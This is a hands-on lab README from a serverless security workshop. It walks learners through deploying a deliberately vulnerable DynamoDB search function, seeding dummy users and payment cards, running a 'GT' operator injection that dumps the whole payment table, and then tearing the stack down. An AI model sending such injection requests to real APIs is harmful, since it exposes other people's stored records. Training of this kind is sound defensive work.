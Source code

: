 # DynamoDB Injection

This attack/payload has been documented [here](https://medium.com/appsecengineer/dynamodb-injection-1db99c2454ac) article.

On reading, you'll see that its a NoSQL Injection attack that's predicated on using the `gt` operator. One of the main reasons that this attack is made possible, is because of badly configured IAM privileges

**Note:** If you have not setup your aws cli follow [AWS-CLI-Configuration](aws-configure/README.md) under the `Setup` section*


* Step 1: In your image, navigate over to `/root/labs/Serverless-Workshop/`

```commandline
cd /root/labs/Serverless-Workshop/
```

* Step 2: Run `pip3 install pipenv`

```commandline
pip3 install pipenv
```

* Step 3: `pipenv shell`

```commandline
pipenv shell
``` 

```commandline
pipenv install boto3
``` 

```commandline
pipenv install faker
``` 

```commandline
pipenv install huepy
``` 

* Step 4: In your image, navigate over to `/root/labs/Serverless-Workshop/DynamoDB-Injection`

```commandline
cd /root/labs/Serverless-Workshop/DynamoDB-Injection
```

* Step 5: Run `sls plugin install -n serverless-python-requirements`

```commandline
sls plugin install -n serverless-python-requirements
```

* Wait for instructor to explain the contents of the lab

* Step 6: Let's look at the contents of the `serverless.yml` [here](https://github.com/we45/Serverless-Workshop/blob/master/DynamoDB-Injection/serverless.yml)

* Step 7: Deploy the function with the command `sls deploy`

```commandline
sls deploy
```

* Wait for the function to deploy completely 


* Step 8: In your image, navigate over to `/root/labs/Serverless-Workshop/DynamoDB-Injection/ops`

```commandline
cd /root/labs/Serverless-Workshop/DynamoDB-Injection/ops
```

* Step 9: Create dummy users `python create_dummies.py users we45-sls-users`

```commandline
python create_dummies.py users we45-sls-users
```

* Step 10: Create dummy payment cards `python create_dummies.py cards we45-sls-payments`

```commandline
python create_dummies.py cards we45-sls-payments
```


* Step 11: Let's now run a genuine search against the database with this command

```commandline

http POST <https://xxxx.execute-api.us-east-1.amazonaws.com/dev/dynamo-search> db=we45-sls-users search_term=Mark search_operator=EQ search_field=first_name

```

* Replace the `URL` from **Step 7**

* Step 12: Now let's run the exploit

```commandline

http POST <https://xxxx.execute-api.us-east-1.amazonaws.com/dev/dynamo-search> db=we45-sls-payments search_term="*" search_operator=GT search_field=payment-card

```

* Replace the `URL` from **Step 7**

### Teardown

* Step 13: In your image, navigate over to `/root/labs/Serverless-Workshop/DynamoDB-Injection`

```commandline
cd /root/labs/Serverless-Workshop/DynamoDB-Injection
```

* Step 14: Run `sls remove` to remove stack

```commandline
sls remove --force
```

* Step 15: In your image, navigate over to `/root/labs/Serverless-Workshop/`

```commandline
cd /root/labs/Serverless-Workshop/
```

* Step 16: Deactivate `pipenv` using `deactivate` command

```commandline
deactivate
```

```commandline
exit
```